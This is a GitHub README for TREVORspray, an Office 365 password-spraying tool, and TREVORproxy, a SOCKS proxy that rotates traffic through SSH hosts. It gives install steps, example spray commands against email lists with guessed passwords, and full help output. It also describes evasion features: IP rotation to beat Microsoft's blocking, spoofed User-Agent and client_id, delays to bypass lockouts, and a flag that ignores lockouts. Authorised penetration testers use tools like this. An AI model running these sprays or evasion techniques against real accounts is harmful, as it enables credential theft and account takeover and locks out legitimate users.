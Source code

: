 ![trevor](https://user-images.githubusercontent.com/20261699/92336575-27071380-f070-11ea-8dd4-5ba42c7d04b7.jpeg)
`#trevorforget`

# TREVORproxy and TREVORspray
TREVORproxy is a SOCKS proxy that round-robins requests through SSH hosts.
TREVORspray is a A featureful Python O365 sprayer based on [MSOLSpray](https://github.com/dafthack/MSOLSpray) which uses the [Microsoft Graph API](https://docs.microsoft.com/en-us/graph/overview)

By [@thetechr0mancer](https://twitter.com/thetechr0mancer)

![trevorspray](https://user-images.githubusercontent.com/20261699/92338226-e366d680-f07c-11ea-8664-7b320783dc98.png)

Microsoft is getting better and better about blocking password spraying attacks against O365.  **TREVORspray can solve this by proxying its requests through an unlimited number of `--ssh` hosts**.  No weird dependencies or cumbersome setup required - all you need is a cloud VM with port 22 open.

CREDIT WHERE CREDIT IS DUE - MANY THANKS TO:
- [@dafthack](https://twitter.com/dafthack) for writing [MSOLSpray](https://github.com/dafthack/MSOLSpray)
- [@Mrtn9](https://twitter.com/Mrtn9) for his Python port of [MSOLSpray](https://github.com/MartinIngesen/MSOLSpray)
- [@KnappySqwurl](https://twitter.com/KnappySqwurl) for being a splunk wizard and showing me how heckin loud I was being :)

## Features
- Tells you the status of each account: if it exists, is locked, has MFA enabled, etc.
- Automatic cancel/resume (attempted user/pass combos are remembered in `./logs/tried_logins.txt`)
- Round-robin proxy through multiple IPs using only vanilla `--ssh`
- Automatic infinite reconnect/retry if a proxy goes down (or if you lose internet)
- Spoofs `User-Agent` and `client_id` to look like legitimate auth traffic
- Logs everything to `./logs/trevorspray.log`
- Saves valid usernames to `./logs/valid_usernames.txt`
- Optional `--delay` between request to bypass M$ lockout countermeasures

## Installation:
```
$ git clone https://github.com/blacklanternsecurity/trevorspray
$ cd trevorspray
$ pip install -r requirements.txt
```

## Example: Spray O365 with 5-second delay between requests
```
$ trevorspray.py -e bob@evilcorp.com -p Fall2020! --delay 5
```

## Example: Spray O365 and round-robin between 3 IPs (the current IP is used as well.)
```
$ trevorspray.py -e emails.txt -p Fall2020! --ssh root@1.2.3.4 root@4.3.2.1
```

## TREVORspray - Help:
```
$ ./trevorspray.py --help
usage: trevorspray.py [-h] -e EMAILS [EMAILS ...] -p PASSWORDS [PASSWORDS ...] [-f] [-d DELAY] [-u URL] [-v] [-s SSH [SSH ...]] [-k KEY] [-b BASE_PORT] [-n]

Execute password sprays against O365, optionally proxying the traffic through SSH hosts

optional arguments:
  -h, --help            show this help message and exit
  -e EMAILS [EMAILS ...], --emails EMAILS [EMAILS ...]
                        Emails(s) and/or file(s) filled with emails
  -p PASSWORDS [PASSWORDS ...], --passwords PASSWORDS [PASSWORDS ...]
                        Password(s) that will be used to perform the password spray
  -f, --force           Forces the spray to continue and not stop when multiple account lockouts are detected
  -d DELAY, --delay DELAY
                        Sleep for this many seconds between requests
  -u URL, --url URL     The URL to spray against (default is https://login.microsoft.com)
  -v, --verbose         Show which proxy is being used for each request
  -s SSH [SSH ...], --ssh SSH [SSH ...]
                        Round-robin load-balance through these SSH hosts (user@host) NOTE: Current IP address is also used once per round
  -k KEY, --key KEY     Use this SSH key when connecting to proxy hosts
  -b BASE_PORT, --base-port BASE_PORT
                        Base listening port to use for SOCKS proxies
  -n, --no-current-ip   Don't spray from the current IP, only use SSH proxies
```

## Known Limitations:
- Untested on Windows
- Currently only works against the M$ Graph API

## TREVORproxy - Help:
```
$ ./trevorproxy.py --help
usage: trevorproxy.py [-h] [-p PORT] [-l LISTEN_ADDRESS] [-v] [-k KEY] [--base-port BASE_PORT] ssh_hosts [ssh_hosts ...]

Spawns a SOCKS server which round-robins requests through the specified SSH hosts

positional arguments:
  ssh_hosts             Round-robin load-balance through these SSH hosts (user@host)

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port for SOCKS server to listen on (default: 1080)
  -l LISTEN_ADDRESS, --listen-address LISTEN_ADDRESS
                        Listen address for SOCKS server (default: 127.0.0.1)
  -v, --verbose         Print extra debugging info
  -k KEY, --key KEY     Use this SSH key when connecting to proxy hosts
  --base-port BASE_PORT
                        Base listening port to use for SOCKS proxies
```
